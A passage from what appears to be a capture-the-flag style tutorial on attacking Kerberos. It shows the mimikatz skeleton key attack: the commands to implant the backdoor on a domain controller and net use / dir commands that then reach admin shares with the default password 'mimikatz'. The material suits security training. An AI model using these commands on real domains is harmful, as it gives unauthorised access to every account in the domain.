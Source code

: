### Skeleton Key Overview -
The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

### Preparing Mimikatz - 
1.) cd Downloads && `mimikatz.exe` - Navigate to the directory mimikatz is in and run mimikatz  
2.) `privilege::debug` - This should be a standard for running mimikatz as mimikatz needs local administrator access  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Attacking%20Kerberos_33.png" width="50%" height="50%">

### Installing the Skeleton Key w/ mimikatz -
1.) `misc::skeleton` - Yes! that's it but don't underestimate this small command it is very powerful  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Attacking%20Kerberos_34.png" width="50%" height="50%">

### Accessing the forest - 
The default credentials will be: "mimikatz"
example: `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password  
example: `dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1  
The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques however that is out of scope for this room.


## Conclusion
We've gone through everything from the initial enumeration of Kerberos, dumping tickets, pass the ticket attacks, kerberoasting, AS-REP roasting, implanting skeleton keys, and golden/silver tickets. I encourage you to go out and do some more research on these different types of attacks and really find what makes them tick and find the multitude of different tools and frameworks out there designed for attacking Kerberos as well as active directory as a whole.  
You should now have the basic knowledge to go into an engagement and be able to use Kerberos as an attack vector for both exploitations as well as privilege escalation.  
Know that you have the knowledge needed to attack Kerberos I encourage you to configure your own active directory lab on your network and try out these attacks on your own to really get an understanding of how these attacks work.

### Resources -
https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a  
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat  
https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1  
https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/  
https://www.varonis.com/blog/kerberos-authentication-explained/  
https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf  
https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1493862736.pdf  
https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf
